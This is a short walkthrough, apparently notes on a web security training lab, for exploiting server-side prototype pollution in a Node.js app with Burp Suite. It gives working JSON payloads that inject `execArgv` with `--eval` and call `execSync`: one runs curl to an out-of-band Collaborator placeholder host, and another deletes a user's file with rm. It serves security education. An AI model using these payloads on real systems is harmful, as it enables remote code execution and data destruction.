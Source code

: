 2. Send the request to Burp Repeater

<span style="background:#fff88f">Identify a prototype pollution source</span>
- In Repeater, add a new property to the JSON with the name `__proto__`, containing an object with a `json spaces` property.
```
"__proto__": {
    "json spaces":10
}
```
1. Send the request.
2. In the **Response** panel, switch to the **Raw** tab. 
	1. Notice that the JSON indentation has increased based on the value of your injected property. 
	2. This strongly suggests that you have successfully polluted the prototype.

<span style="background:#fff88f">Probe for remote code execution</span>
1. In the browser, go to the admin panel and observe that there's a button for running maintenance jobs.
    
2. Click the button and observe that this triggers background tasks that clean up the database and filesystem. 
	1. This is a classic example of the kind of functionality that may spawn node child processes.
    
3. Try polluting the prototype with a malicious `execArgv` property that adds the `--eval` argument to the spawned child process. 
	1. Use this to call the `execSync()` sink, 
		1. passing in a command that triggers an interaction with the public Burp Collaborator server. 
		2. For example:
```
"__proto__": {
    "execArgv":[
        "--eval=require('child_process').execSync('curl https://YOUR-COLLABORATOR-ID.oastify.com')"
    ]
}
```
1. Send the request.
2. In the browser, go to the admin panel and trigger the maintenance jobs again. 
	1. Notice that these have both failed this time.
    
3. In Burp, go to the **Collaborator** tab and poll for interactions. 
	1. Observe that you have received several DNS interactions, confirming the remote code execution

<span style="background:#fff88f">Craft an exploit</span>
- In Repeater, replace the `curl` command with a command for deleting Carlos's file:
```
"__proto__": {
    "execArgv":[
        "--eval=require('child_process').execSync('rm /home/carlos/morale.txt')"
    ]
}
```
1. Send the request.
2. Go back to the admin panel and trigger the maintenance jobs again.
3. Carlos's file is deleted and the lab is solved.
